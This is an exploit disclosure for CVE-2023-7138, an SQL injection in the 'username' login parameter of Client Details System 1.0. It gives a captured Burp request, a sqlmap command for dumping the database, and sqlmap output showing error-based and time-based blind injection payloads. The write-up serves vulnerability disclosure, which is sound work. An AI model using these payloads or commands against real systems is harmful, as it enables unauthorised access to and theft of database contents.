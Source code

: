 # CVE-2023-7138_Client_Details_System-SQL_Injection_2
+ **Exploit Title:** CVE-2023-7138_Client_Details_System-SQL_Injection_2
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7138

## References: 
+ **CVE-2023-7138:** https://vuldb.com/?id.249141
+ https://www.cve.org/CVERecord?id=CVE-2023-7138
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7138
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7138

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'username' in "/clientdetails/admin". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/admin/ HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/clientdetails/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=P@ssw0rd
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 6680 FROM(SELECT COUNT(*),CONCAT(0x7162716271,(SELECT (ELT(6680=6680,1))),0x716b767171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- zYzR&login=&password=P@ssw0rd

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 7749 FROM (SELECT(SLEEP(5)))ysnA)-- MdSB&login=&password=P@ssw0rd
---
[15:08:19] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:08:20] [INFO] fetching current database
[15:08:20] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/8fcb4ea7-ff09-4ea1-b8e7-5730ce9a41a8)
